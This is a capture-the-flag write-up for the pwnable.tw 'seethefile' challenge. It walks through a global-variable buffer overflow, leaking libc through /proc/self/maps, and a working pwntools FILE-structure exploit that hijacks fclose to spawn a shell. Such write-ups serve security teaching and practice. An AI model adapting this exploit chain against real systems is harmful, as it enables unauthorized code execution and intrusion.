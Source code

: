 # pwnable.tw - seethefile

Original challenge link: https://pwnable.tw/challenge/#9

You can as well download the challenge files in my repo: [seethefile.zip](seethefile.zip)

Download and extract, then use pwninit to patch file. After that, we can get started!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped

$ checksec seethefile
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit binary without being stripped and just `NX enable`. Next, we will use ghidra to decompile the file. The first option `openfile` will open a file with `fopen` in read mode but will exit if there are string `flag` in file name:

![openfile-check-flag-in-filename.png](images/openfile-check-flag-in-filename.png)

Then we can use second option `readfile` to read data from the opened file and write data to us with option 3 `writefile` just in case the file name doesn't contain string `flag` and buffer doesn't contain string `FLAG` or `}`. The forth option just simply close an opened file if exist.

But the last option give us somethings interesting, it will read a string from user by using scanf and a format string `%s` to a global variable --> **Buffer Overflow**. Analyze a bit and we know that this global variable `name` is before a global variable `fd`:

![check-global-variable.png](images/check-global-variable.png)

That means we might need to attack fp for this chall. That's all we can find, let's move on!

# 2. Idea

As the caption shown `Get a shell for me.`, we know that we cannot use those options to read the flag but need to get a shell to do so. As we know that we can overwrite the variable `fp` when inputing `name` so the idea will be fsop attacking.

However, we can use those options `openfile`, `readfile` and `writefile` to leak the address of current process by reading data from `/proc/self/maps` which contains all the address of current process from binary to stack, from ld to libc.

With address of libc, we can create a fake file structure to attack. If you don't know anything about how file works, you should read from Angel Boy [here](https://nightrainy.github.io/2019/08/07/play-withe-file-structure-%E6%90%AC%E8%BF%90/). For this challenge attack, we will do the same as the author did in section [`Exploitation of FILE structure`](https://nightrainy.github.io/2019/08/07/play-withe-file-structure-%E6%90%AC%E8%BF%90/#Exploitation-of-FILE-structure), we will overwrite `fp` with a fake file structure so when it close this fp, it will execute something for us.

Summary:
- Stage 1: Leak libc address
- Stage 2: File structure attack

# 3. Exploit

### Stage 1: Leak libc address

Just simply open file `/proc/self/maps` and get the address of libc:

```python
# Read first
open_file(b'/proc/self/maps')
output = b''
for i in range(4):
    read()
    output += write()[:-1]

# Parse later
output = output.decode().split('\n')
for i in output:
    if 'libc-2.23.so' in i and 'r-xp' in i:
        libc.address = int(i.split('-')[0], 16)
        break
log.info(hex(libc.address))
```

### Stage 2: File structure attack

If you don't know what file structure look like, you can read source [here](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241) to have an overview about it. Now, we will create a file structure in pwntools with `FileStructure` and pass input to program to see what happen:

```python
file = FileStructure()
file.flags = 0xfbad2488        # Take the same as other flag
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

Execute script and we get segfault in fclose:

![segfault.png](images/segfault.png)

It's the same as Angel Boy did so we know that the program checking the `fp->_lock`. Setting the `fp->_lock` to an address which contains value and then execute script again to see if we pass the check or not:

```python
file = FileStructure()
file.flags = 0xfbad2488
file._lock = 0x804ba00         # Add this line
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

This time we get segfault at a `call` to vtable:

![segfault-at-call-to-vtable.png](images/segfault-at-call-to-vtable.png)

So let's change vtable to `1234` to make sure we are right:

```python
file = FileStructure()
file.flags = 0xfbad2488
file._lock = 0x804ba00
file.vtable = u32(b'1234')     # Add this line
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

The same call to eax with eax changed to `1234`:

![check-register.png](images/check-register.png)

We notice that ebx is the fake fp that we input:

![fake-fp.png](images/fake-fp.png)

So we will want to write string `/bin/sh` at the begining of fp and address of system somewhere, then change vtable so that `vtable + 0x44` point to system address:

```python
file = FileStructure()
file.flags = u32(b'/bin')                   # Add this line
file._IO_read_ptr = u32(b'/sh\x00')         # Add this line
file._lock = 0x804ba00
file.vtable = 0x804b284 - 0x44
payload = flat(
    b'A'*0x20,
    0x804b290, libc.sym['system'], 0, 0,    # Add system address
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

Execute script and we get shell now. 

Full script: [solve.py](solve.py)